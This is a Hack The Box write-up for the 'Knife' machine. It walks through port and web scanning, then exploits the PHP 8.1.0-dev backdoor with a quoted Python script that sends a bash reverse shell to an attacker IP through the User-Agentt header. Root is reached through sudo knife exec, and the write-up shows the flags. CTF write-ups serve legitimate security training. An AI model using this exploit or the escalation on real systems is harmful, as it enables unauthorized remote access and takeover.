


---
title: "Hack The Box - Knife"
author: Minh Giang
date: "2021-08-28"
subject: "CTF Writeup Template"
keywords: [HTB, CTF, Hack The Box, Security]
lang: "en"
titlepage: true
title-page-color: "141d2b"
titlepage-rule-color: "11b925"
titlepage-text-color: "FFFFFF"
toc: true
toc-own-page: true
titlepage-background: "./images/bg.pdf"
...

# Information Gathering

## Nmap
First, we'll start with using `nmap` to scan for open ports, along with its services and versions.

```console
kali@kali:~$ nmap -T4 -p- -A 10.10.10.242

Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-26 00:05 EDT
Warning: 10.10.10.242 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.10.242
Host is up (0.066s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 5.0 - 5.3 (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 - 5.4 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 3306/tcp)
HOP RTT      ADDRESS
1   56.26 ms 10.10.16.1
2   27.70 ms 10.10.10.242

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 288.35 seconds
```

From the nmap results, we can see that ports, **22**, and **80** are open.

### 22 - OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)

There does not seem to be any relevant vulnerability to be exploited.

### 80 - Apache httpd 2.4.41 ((Ubuntu))

There does not seem to be any relevant vulnerability to be exploited.


Let's look at the homepage of http://10.10.10.242


**Figure 1:** Homepage of http://10.10.10.242

There are tabs on the top right corner, but it does not take us anywhere.

## Gobuster
```console
kali@kali:~$ gobuster dir -u http://10.10.10.242 -w /usr/share/wordlists/dirb/common.txt

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.242
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/08/08 00:26:10 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/index.php            (Status: 200) [Size: 5815]
/server-status        (Status: 403) [Size: 277] 
===============================================================
2021/08/26 00:26:36 Finished
===============================================================
```

Unfortunately all these directories are forbidden except index.php, which is the homepage.


## Nikto
```console
kali@kali:~$ nikto -h 10.10.10.242 -ask no

- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.242
+ Target Hostname:    10.10.10.242
+ Target Port:        80
+ Start Time:         2021-08-28 16:20:21 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.41 (Ubuntu)
+ Retrieved x-powered-by header: PHP/8.1.0-dev
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ 7864 requests: 0 error(s) and 5 item(s) reported on remote host
+ End Time:           2021-08-28 16:26:24 (GMT-4) (363 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

It appears that the application is using PHP/8.1.0-dev, which is development versions. Development versions are prone to vulnerabilities. So let's do more research about it.

### PHP/8.1.0-dev

Turns out PHP/8.1.0-dev has a backdoor vulnerability that allows attackers to execute arbitrary code by sending it to the **User-Agentt** header.

We can utilize one of the scripts `revshell_php_8.1.0-dev.py` in this github repository [https://github.com/flast101/php-8.1.0-dev-backdoor-rce](https://github.com/flast101/php-8.1.0-dev-backdoor-rce) to get a reverse shell.

First we download the repository.

```console
kali@kali:~$ git clone https://github.com/flast101/php-8.1.0-dev-backdoor-rce.git
```

Let's take a look at `revshell_php_8.1.0-dev.py`.

```python
#!/usr/bin/env python3
import os, sys, argparse, requests

request = requests.Session()

def check_target(args):
    response = request.get(args.url)
    for header in response.headers.items():
        if "PHP/8.1.0-dev" in header[1]:
            return True
    return False

def reverse_shell(args):
    payload = 'bash -c \"bash -i >& /dev/tcp/' + args.lhost + '/' + args.lport + ' 0>&1\"'
    injection = request.get(args.url, headers={"User-Agentt": "zerodiumsystem('" + payload + "');"}, allow_redirects = False)

def main(): 
    parser = argparse.ArgumentParser(description="Get a reverse shell from PHP 8.1.0-dev backdoor. Set up a netcat listener in another shell: nc -nlvp <attacker PORT>")
    parser.add_argument("url", metavar='<target URL>', help="Target URL")
    parser.add_argument("lhost", metavar='<attacker IP>', help="Attacker listening IP",)
    parser.add_argument("lport", metavar='<attacker PORT>', help="Attacker listening port")
    args = parser.parse_args()
    if check_target(args):
        reverse_shell(args)
    else:
        print("Host is not available or vulnerable, aborting...")
        exit
    
if __name__ == "__main__":
    main()
```

To use this script, we need to provide the target IP address, our IP address, and a port we will use to listen for a connection. 


# Exploitation  

Before we execute the script for a reverse shell, we need to setup a listener.

```console
kali@kali:~$ nc -nlvp 4242
listening on [any] 4242 ...
```

After setting up a listener on port 4242 (any port of your choice), we can execute the script.

```console
kali@kali:~/Documents/HTB/Knife/php-8.1.0-dev-backdoor-rce$ python3 revshell_php_8.1.0-dev.py http://10.10.10.242 10.10.16.31 4242
```

Checking back at the listener we have setup before, we can see that we got a shell as the user **james**.

```console
kali@kali:~$ nc -nlvp 4242
listening on [any] 4242 ...
connect to [10.10.16.31] from (UNKNOWN) [10.10.10.242] 39434
bash: cannot set terminal process group (971): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ 
```

## User Flag

To get the user flag, we can provide `cat` with an absolute path to the file `home/james/user.txt`.

```console
kali@kali:~$ nc -nlvp 4242
listening on [any] 4242 ...
connect to [10.10.16.31] from (UNKNOWN) [10.10.10.242] 39434
bash: cannot set terminal process group (971): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ cat home/james/user.txt
cat home/james/user.txt
ab1d0b385c48a4a85c9aa2486b0cd100
```

## Root Flag

### Privilege Escalation

First we have to check if there is any **sudo** commands this user can execute.

```console
james@knife:/$ sudo -l
sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

We can see that this user is allowed to use `/usr/bin/knife`. Let's do some research on `knife`.


After digging around Knife's documentation, we find a command that can execute Ruby code.


**Figure 2:** `exec` command from Knife's documentation

Since we can execute code, we can try to spawn a shell by executing `exec "/bin/bash -i"`.

```console
james@knife:/$ sudo /usr/bin/knife exec -E 'exec "/bin/bash -i"'
sudo /usr/bin/knife exec -E 'exec "/bin/bash -i"'
bash: cannot set terminal process group (1035): Inappropriate ioctl for device
bash: no job control in this shell
root@knife:/# cat root/root.txt
cat root/root.txt
069addd9941d215b9215c54bc5588f33
```
Hooray!! We got root.

# Conclusion
To conclude, this box was fair easy after discovering that the web application is using PHP/8.1.0-dev. Without using `nikto`, it was tricky to find a relevant vulnerability.

# References
1. [https://github.com/flast101/php-8.1.0-dev-backdoor-rce](https://github.com/flast101/php-8.1.0-dev-backdoor-rce)
2. [https://docs.chef.io/workstation/knife_exec/](https://docs.chef.io/workstation/knife_exec/)
3. [https://github.com/Wandmalfarbe/pandoc-latex-template](https://github.com/Wandmalfarbe/pandoc-latex-template)
4. [https://hackthebox.eu](https://hackthebox.eu)
